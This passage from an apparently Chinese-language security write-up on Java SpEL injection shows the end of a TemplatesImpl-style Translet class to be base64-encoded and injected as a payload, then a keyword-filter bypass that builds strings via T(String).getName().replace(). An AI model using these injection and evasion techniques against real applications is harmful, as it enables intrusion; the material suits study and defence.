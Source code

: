 ```java
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

把他变为 base64 塞入 payload 之后注入。  
![image.png](assets/1698895942-4b5b85a656b000dbe12f80eefac5b305.png)  
这就是我的纯度。

# 六、关键字 Bypass（编不下去了）

纯度宝典最后一页，假如没有技能了怎么办  
和一些其他语言的沙盒逃逸一样，想办法找到替代的东西，思路其实大差不差。

## 字符串替换

形如这样的

```php
T(String).getName()[0].replace(106,104)+T(String).getName()[0].replace(106,51)+T(String).getName()[0].replace(106,122)+T(String).getName()[0].replace(106,104)+T(String).getName()[0].replace(106,49)
#回显 h3zh1
```
